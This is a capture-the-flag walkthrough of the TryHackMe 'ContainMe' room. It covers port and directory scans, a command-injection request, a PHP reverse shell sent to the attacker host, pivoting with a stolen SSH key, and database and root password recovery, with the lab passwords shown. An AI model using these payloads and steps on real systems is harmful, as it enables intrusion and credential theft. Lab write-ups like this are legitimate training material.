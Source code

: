 # ContainMe

**Room Link:** [https://tryhackme.com/room/containme1](https://tryhackme.com/room/containme1)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp Request**

```
GET /index.php?path=;id HTTP/1.1
Host: 10.10.108.33
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Kali**

```
nc -lvnp 1337
```

**Burp Request**

```
GET /index.php?path=;php+-r+'$sock%3dfsockopen("$KALI",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.128.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
/usr/share/man/zh_TW/crypt mike
```

<figure><img src="../../.gitbook/assets/image (456).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/andrew-d/static-binaries.git
cd static-binaries/binaries/linux/x86_64
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/nmap
chmod +x nmap
./nmap 172.16.20.0/24 -Pn
```

<figure><img src="../../.gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

Mike has a ssh key so I tried logging into the other server with that and it worked.

**Victim**

```
ssh mike@172.16.20.6 -i /home/mike/.ssh/id_rsa
```

<figure><img src="../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**&#x20;

**Victim**

```
ss -ltp 
```

<figure><img src="../../.gitbook/assets/image (461).png" alt=""><figcaption></figcaption></figure>

Password was password, just guessed it.

**Victim(mysql)**

```
mysql -ppassword 
show databases; 
use accounts;  
select * from users ;
```



<figure><img src="../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>su root
</strong>Password: bjsig4868fgjjeog
</code></pre>

<figure><img src="../../.gitbook/assets/image (462).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /root
</strong><strong>unzip mike.zip
</strong><strong>Password: WhatAreYouDoingHere
</strong></code></pre>









